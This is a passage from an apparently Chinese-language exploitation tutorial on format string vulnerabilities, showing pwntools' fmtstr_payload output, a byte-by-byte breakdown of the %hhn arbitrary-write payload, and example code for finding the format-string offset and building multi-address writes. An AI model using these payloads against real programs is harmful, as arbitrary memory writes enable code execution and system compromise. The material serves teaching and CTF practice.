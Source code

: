 ```
>>> fmtstr_payload(6, {0x08048000:0x10203040})
'\x00\x80\x04\x08\x01\x80\x04\x08\x02\x80\x04\x08\x03\x80\x04\x08%48c%6$hhn%240c%7$hhn%240c%8$hhn%240c%9$hhn'
```

即开头为四个地址的小段表示加一堆格式化字符
```
\x00\x80\x04\x08
\x01\x80\x04\x08
\x02\x80\x04\x08
\x03\x80\x04\x08
%48c%6$hhn
%240c%7$hhn
%240c%8$hhn
%240c%9$hhn
```

即对0x08048000写入16+48 = 64 = 0x40
对0x08048000写入0x40+240 = 304 = (uint8)0x130 = 0x30
...

但这个payload以0x00开头，应该是传不过去的，还是要人工写。


## pwntools相关模块的使用

对于格式化字符串漏洞，pwntools有模块fmtstr

docs地址：http://pwntools.readthedocs.io/en/stable/fmtstr.html

对于这个模块，我只能说建议手写，至少你要懂原理才去用这个模块，不然就是脚本小子。

例如之前测试某个程序格式化字符串的偏移位置时，我们是采用手动测试，直到输出字符串前4字节的16进制值为止。pwntools则有函数**FmtStr**。

首先你要自己写一个函数，能够不断输入格式化字符串来测试。

```python
#pwntools的示例
>>> def exec_fmt(payload):
...     p = process(program)
...     p.sendline(payload)
...     return p.recvall()
...
>>> autofmt = FmtStr(exec_fmt)
>>> offset = autofmt.offset
#此处的offset就是我们需要找的偏移值
```

生成任意地址写的payload的函数：**fmtstr_payload**

示例代码：

```python
# we want to do 3 writes
writes = {0x08041337:   0xbfffffff,
          0x08041337+4: 0x1337babe,
          0x08041337+8: 0xdeadbeef}

# the printf() call already writes some bytes
# for example :
# strcat(dest, "blabla :", 256);
# strcat(dest, your_input, 256);
# printf(dest);
# Here, numbwritten parameter must be 8
payload = fmtstr_payload(5, writes, numbwritten=8)
```

